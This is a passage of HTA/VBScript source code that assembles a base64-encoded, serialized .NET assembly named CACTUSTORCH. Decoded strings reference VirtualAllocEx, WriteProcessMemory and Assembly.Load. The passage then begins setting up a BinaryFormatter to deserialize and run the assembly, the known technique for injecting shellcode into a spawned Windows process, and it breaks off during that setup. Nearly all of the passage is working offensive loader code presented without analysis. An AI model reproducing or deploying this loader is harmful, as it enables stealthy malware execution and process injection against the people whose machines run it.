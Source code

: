 ```hta
s = s &"WVNpemUAZHdTdGFja1NpemUAZHdTaXplAFNpemVPZgBHVUFSRF9Nb2RpZmllcmZsYWcATk9DQUNI"
s = s &"RV9Nb2RpZmllcmZsYWcAV1JJVEVDT01CSU5FX01vZGlmaWVyZmxhZwBGcm9tQmFzZTY0U3RyaW5n"
s = s &"AFRvU3RyaW5nAGNhY3R1c1RvcmNoAGdldF9MZW5ndGgATWFyc2hhbABrZXJuZWwzMi5kbGwAQ0FD"
s = s &"VFVTVE9SQ0guZGxsAFN5c3RlbQBFbnVtAGxwTnVtYmVyT2ZCeXRlc1dyaXR0ZW4AbHBQcm9jZXNz"
s = s &"SW5mb3JtYXRpb24AU3lzdGVtLlJlZmxlY3Rpb24ATWVtb3J5UHJvdGVjdGlvbgBscFN0YXJ0dXBJ"
s = s &"bmZvAFplcm8AbHBEZXNrdG9wAGJ1ZmZlcgBscFBhcmFtZXRlcgBoU3RkRXJyb3IALmN0b3IAbHBT"
s = s &"ZWN1cml0eURlc2NyaXB0b3IASW50UHRyAFN5c3RlbS5EaWFnbm9zdGljcwBTeXN0ZW0uUnVudGlt"
s = s &"ZS5JbnRlcm9wU2VydmljZXMAU3lzdGVtLlJ1bnRpbWUuQ29tcGlsZXJTZXJ2aWNlcwBEZWJ1Z2dp"
s = s &"bmdNb2RlcwBiSW5oZXJpdEhhbmRsZXMAbHBUaHJlYWRBdHRyaWJ1dGVzAGxwUHJvY2Vzc0F0dHJp"
s = s &"YnV0ZXMAU2VjdXJpdHlBdHRyaWJ1dGVzAGR3Q3JlYXRpb25GbGFncwBDcmVhdGVQcm9jZXNzRmxh"
s = s &"Z3MAZHdGbGFncwBEdXBsaWNhdGVPcHRpb25zAGR3WENvdW50Q2hhcnMAZHdZQ291bnRDaGFycwBU"
s = s &"ZXJtaW5hdGVQcm9jZXNzAGhQcm9jZXNzAGxwQmFzZUFkZHJlc3MAbHBBZGRyZXNzAGxwU3RhcnRB"
s = s &"ZGRyZXNzAENvbmNhdABPYmplY3QAZmxQcm90ZWN0AGxwRW52aXJvbm1lbnQAQ29udmVydABoU3Rk"
s = s &"SW5wdXQAaFN0ZE91dHB1dAB3U2hvd1dpbmRvdwBWaXJ0dWFsQWxsb2NFeABiaW5hcnkAV3JpdGVQ"
s = s &"cm9jZXNzTWVtb3J5AGxwQ3VycmVudERpcmVjdG9yeQBvcF9FcXVhbGl0eQBvcF9JbmVxdWFsaXR5"
s = s &"AAAAAAABABlQAHIAbwBnAHIAYQBtAFcANgA0ADMAMgAADXcAaQBuAGQAaQByAAAVXABTAHkAcwBX"
s = s &"AE8AVwA2ADQAXAAAFVwAUwB5AHMAdABlAG0AMwAyAFwAAAMwAAAARY+bzuLqxE+aSSAzLsphXgAE"
s = s &"IAEBCAMgAAEFIAEBEREEIAEBDgQgAQECDgcJHQUYEhwREA4YGAgYBQABHQUOBAABDg4DIAAIBgAD"
s = s &"Dg4ODgIGGAMgAA4FAAICDg4EAAEIHAi3elxWGTTgiQQBAAAABAIAAAAEBAAAAAQIAAAABBAAAAAE"
s = s &"IAAAAARAAAAABIAAAAAEAAEAAAQAAgAABAAEAAAEAAgAAAQAEAAABAAgAAAEAEAAAAQAgAAABAAA"
s = s &"AQAEAAACAAQAAAQABAAACAAEAAAQAAQAACAABAAAAAEEAAAAAgQAAAAEBAAAAAgEAAAAEAQAAAAg"
s = s &"BAAAAEAEAAAAgAQAMAAABAAAQAACBggCBgICBgkDBhEUAwYRGAIGBgMGESADBhEkEwAKGA4OEgwS"
s = s &"DAIRFBgOEhwQERAKAAUYGBgYESARJAkABQIYGB0FGAgFAAICGAkKAAcYGBgJGBgJGAUgAgEODggB"
s = s &"AAgAAAAAAB4BAAEAVAIWV3JhcE5vbkV4Y2VwdGlvblRocm93cwEIAQACAAAAAAAQAQALQ0FDVFVT"
s = s &"VE9SQ0gAAAUBAAAAAAUBAAEAACkBACQ1NjU5OGYxYy02ZDg4LTQ5OTQtYTM5Mi1hZjMzN2FiZTU3"
s = s &"NzcAAAwBAAcxLjAuMC4wAAAASDUAAAAAAAAAAAAAYjUAAAAgAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s &"AFQ1AAAAAAAAAAAAAAAAX0NvckRsbE1haW4AbXNjb3JlZS5kbGwAAAAAAP8lACAAEAAAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEAEAAAABgAAIAAAAAAAAAAAAAAAAAAAAEAAQAA"
s = s &"ADAAAIAAAAAAAAAAAAAAAAAAAAEAAAAAAEgAAABYQAAANAMAAAAAAAAAAAAANAM0AAAAVgBTAF8A"
s = s &"VgBFAFIAUwBJAE8ATgBfAEkATgBGAE8AAAAAAL0E7/4AAAEAAAABAAAAAAAAAAEAAAAAAD8AAAAA"
s = s &"AAAABAAAAAIAAAAAAAAAAAAAAAAAAABEAAAAAQBWAGEAcgBGAGkAbABlAEkAbgBmAG8AAAAAACQA"
s = s &"BAAAAFQAcgBhAG4AcwBsAGEAdABpAG8AbgAAAAAAAACwBJQCAAABAFMAdAByAGkAbgBnAEYAaQBs"
s = s &"AGUASQBuAGYAbwAAAHACAAABADAAMAAwADAAMAA0AGIAMAAAADAADAABAEMAbwBtAG0AZQBuAHQA"
s = s &"cwAAAEMAQQBDAFQAVQBTAFQATwBSAEMASAAAACIAAQABAEMAbwBtAHAAYQBuAHkATgBhAG0AZQAA"
s = s &"AAAAAAAAAEAADAABAEYAaQBsAGUARABlAHMAYwByAGkAcAB0AGkAbwBuAAAAAABDAEEAQwBUAFUA"
s = s &"UwBUAE8AUgBDAEgAAAAwAAgAAQBGAGkAbABlAFYAZQByAHMAaQBvAG4AAAAAADEALgAwAC4AMAAu"
s = s &"ADAAAABAABAAAQBJAG4AdABlAHIAbgBhAGwATgBhAG0AZQAAAEMAQQBDAFQAVQBTAFQATwBSAEMA"
s = s &"SAAuAGQAbABsAAAAPAAMAAEATABlAGcAYQBsAEMAbwBwAHkAcgBpAGcAaAB0AAAAQwBBAEMAVABV"
s = s &"AFMAVABPAFIAQwBIAAAAKgABAAEATABlAGcAYQBsAFQAcgBhAGQAZQBtAGEAcgBrAHMAAAAAAAAA"
s = s &"AABIABAAAQBPAHIAaQBnAGkAbgBhAGwARgBpAGwAZQBuAGEAbQBlAAAAQwBBAEMAVABVAFMAVABP"
s = s &"AFIAQwBIAC4AZABsAGwAAAA4AAwAAQBQAHIAbwBkAHUAYwB0AE4AYQBtAGUAAAAAAEMAQQBDAFQA"
s = s &"VQBTAFQATwBSAEMASAAAADQACAABAFAAcgBvAGQAdQBjAHQAVgBlAHIAcwBpAG8AbgAAADEALgAw"
s = s &"AC4AMAAuADAAAAA4AAgAAQBBAHMAcwBlAG0AYgBsAHkAIABWAGUAcgBzAGkAbwBuAAAAMQAuADAA"
s = s &"LgAwAC4AMAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAAAADAAAAwAAAB0NQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
s = s &"AAAAAAAAAAAAAAABDQAAAAQAAAAJFwAAAAkGAAAACRYAAAAGGgAAACdTeXN0ZW0uUmVmbGVjdGlv"
s = s &"bi5Bc3NlbWJseSBMb2FkKEJ5dGVbXSkIAAAACgsA"

entry_class ="cactusTorch"
Dim fmt, al, d, o
Set fmt = CreateObject("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter")
Set al = CreateObject("System.Collections.ArrayList")
```